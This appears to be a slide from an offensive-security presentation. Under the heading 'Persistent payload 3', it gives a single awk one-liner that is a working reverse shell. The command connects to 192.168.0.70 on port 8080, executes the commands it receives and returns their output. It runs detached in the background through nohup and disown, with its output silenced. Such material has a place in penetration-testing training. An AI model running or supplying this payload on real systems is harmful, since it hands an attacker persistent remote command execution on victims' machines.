

# Persistent payload 3 – Awk one liner
nohup awk 'BEGIN {s = "/inet/tcp/0/192.168.0.70/8080"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' > /dev/null 2>&1 & disown; exit